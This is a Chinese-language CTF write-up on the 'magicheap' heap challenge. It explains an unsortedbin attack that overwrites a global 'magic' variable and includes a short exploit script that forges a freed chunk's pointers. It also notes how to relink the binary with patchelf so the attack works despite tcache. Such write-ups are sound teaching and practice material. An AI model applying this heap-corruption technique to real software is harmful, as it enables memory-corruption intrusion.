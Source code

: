 ```


```

要执行 magic，我们需要满足两个条件，一是 case 设置为 4869；二是让 magic>4869

而与 magic 有关的地方只有在初始化堆时将其设置为了 0

我们可以利用 unsortedbin attack 向 magic 处写入 unsortedbin 的 fd

这个数一定是大于 4869 的

顺理成章的就可以写出脚本

```
malloc(0x28, '')
malloc(0x98, '')
malloc(0x28, '')
free(1)

payload = p64(0)*5 + p64(0xa1) + p64(0xdeadbeef) + p64(elf.sym.magic-0x10)
edit(chunk_A, len(payload), payload)
malloc(0x98, '')

```

但是运行的时候发现这个 repo 里面现成的程序是和默认的 libc 链接起来的，这样 free 之后被加入到了 tcachebin 而不是 unsortedbin

所以用 patchelf 进行修改，或者也可以重新编译一下

关于 patchelf 的安装

```
git clone https://github.com/NixOS/patchelf
cd patchelf
./bootstrap.sh
./configure
make
make install

```

使用时

```
patchelf --set-rpath .links magicheap

```

这样就可以为这个二进制设置一个 runpath

只需要在`.links`下放好需要的`ld.so.2`和`libc.so.6`两个软链接就可以了

不过这边直接重新编译了一下

```
gcc magicheap.c -no-pie -o magicheap -Wl,--rpath=.links

```
